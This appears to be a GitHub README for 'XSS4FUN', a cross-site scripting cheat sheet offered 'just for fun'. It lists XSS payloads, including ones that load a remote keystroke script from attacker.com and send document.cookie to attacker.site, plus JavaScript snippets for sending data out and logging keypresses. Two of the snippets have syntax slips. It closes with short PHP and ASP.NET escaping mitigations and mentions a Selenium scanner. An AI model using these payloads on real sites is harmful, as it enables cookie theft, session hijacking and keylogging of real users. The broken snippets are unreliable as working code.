 # XSS4FUN :cookie:
Cross-Site-Scripting just for fun.

## Cross-Site-Scripting Utils:
  - Steal cookies for session hijacking.
  - Modify Webpage to perform phishing.
  - Inject malicious code.
## Basic payloads:
  - <script>alert(1)</script>

## Useful payloads:
  - **<script src=https://attacker.com/keystroke.js > </script>**
    - To include malicious javascript code in page.
  - **\<img src=anything onerror=alert(1) >**
    - When the **<script>** is being filtered by the Web Application, you can use javascript events.
  - **<script>alert(localStorage.getItem('salary'))</script>**
    - To collect sensitive information stored in Browser Local Storage.
  - **<img src=error onerror=this.src='http://attacker.site/collector.php?data='+document.cookie >**
    - This payload starts a loop, so the browser start sending multiple requests to the attacker server with the cookie.

## Javascript useful codes:
  - To perform HTTP GET request
  ```
  var xhttp = new XMLHttpRequest(); //Init xhttp object
  xhttp.open("GET", "https://attacker.site/strokes.php?data=data, true); //GET request
  xhttp.send(); //Send request
  ```
  - Collect pressed key
  ```
  document.addEventListener("keydown",function(e){
  pressed_key = e.key;
  }
  ```
## Mitigations    
  ## PHP
   Using **htmlspecialchars** to convert special characters to HTML.
  ```
  $word = htmlspecialchars($_GET['word']);
  ```
  ## ASP NET
   Using **HtmlEncode** to convert special characters to HTML.
  ```
 user_input = System.Web.HttpUtility.HtmlEncode(user_input);
  ```
  So this **<script>alert(1)</script>** becomes this **\&lt;script\&gt;alert(1)\&lt;/script&gt**

## Automated Detection
  ## xss4fun.py
  Using selenium to find input fields and inject payloads, if the injection is sucessful, a printscreen is made.
